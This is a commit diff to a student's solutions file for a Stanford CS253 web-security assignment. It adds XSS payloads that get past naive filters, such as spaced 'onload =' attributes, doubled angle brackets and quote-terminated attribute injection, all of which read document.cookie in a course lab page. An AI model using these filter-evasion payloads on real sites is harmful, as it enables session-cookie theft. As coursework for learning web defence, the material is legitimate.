

Before and after one commit to Sivnerof/CS253, a Markdown page: Assignment-1/SOLUTIONS.md, the part around one of its changes. Shown at 83% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Added solutions 7-14

````diff
--- a/Assignment-1/SOLUTIONS.md
+++ b/Assignment-1/SOLUTIONS.md
@@ -48,8 +48,14 @@
 
 # 7. Between a Rock And a Hard Place (3 points)
 
+Since this regex pattern searches for ```onerror=``` or ```onload=```, we can simply use ```onerror =``` or ```onload =``` instead.
+
 ```
-TODO: Replace this with your attack input.
+/script|onerror=|onload=/gi
+```
+
+```html
+<img onload =console.log(document.cookie) src="https://web.stanford.edu/class/cs253/stanford.svg">1</img>
 ```
 
 # 8. Angle of Death (6 points)
@@ -57,7 +63,7 @@ TODO: Replace this with your attack input.
 Attack input:
 
 ```
-TODO: Replace this with your attack input.
+<<script>>console.log(document.cookie)</script>
 ```
 
 Server code:
@@ -67,8 +73,8 @@ router.get('/search', async (req, res) => {
   let q = req.query.q
   if (q == null) q = ''
 
-  // TODO: Replace this with your solution.
-  // q = ???
+  // What I assume the source code regex pattern looks like:
+  q = q.replace(/<([^>]*)>/, '')
 
   const results = await getResults(q)
   res.render('caloogle-search-page', { q, results })
@@ -81,54 +87,32 @@ N/A
 
 # 10. In the Wrong Place at the Wrong Time (3 points)
 
+Opening angle is now blocked, so new payload will have to be injected into an HTML attribute.
+
+If we search for ```test' hello``` we'll see the output is still ```test' hello```. But ```test" hello``` outputs ```test``` so we know ```"``` is the string terminator. Our new payload is:
+
 ```
-TODO: Replace this with your attack input.
+test" onload=console.log(document.cookie)
 ```
 
 # 11. You Can't Win 'em All (6 points)
 
 Attack input:
 
+The ```"``` character has been filtered, but only once. So the new payload is:
+
 ```
-TODO: Replace this with your attack input.
-```
-
-Server code:
-
-```js
-router.get('/search', async (req, res) => {
-  let q = req.query.q
-  if (q == null) q = ''
-
-  // TODO: Replace this with your solution.
-  // q = ???
-
-  const results = await getResults(q)
-  res.render('caloogle-search-page', { q, results })
-})
+test"" onload=console.log(document.cookie)
 ```
 
 # 12. When All is Said and Done (6 points)
 
 Attack input:
 
+Similar attack but this time the string is terminated with ```'```.
+
 ```
-TODO: Replace this with your attack input.
-```
-
-Server code:
-
-```js
-router.get('/search', async (req, res) => {
-  let q = req.query.q
-  if (q == null) q = ''
-
-  // TODO: Replace this with your solution.
-  // q = ???
-
-  const results = await getResults(q)
-  res.render('caloogle-search-page', { q, results })
-})
+test' onload=console.log(document.cookie)
 ```
 
 # 13. When You Want a Job Done Right
````
Also changed, not shown: other parts of Assignment-1/SOLUTIONS.md (+3 -1 lines).
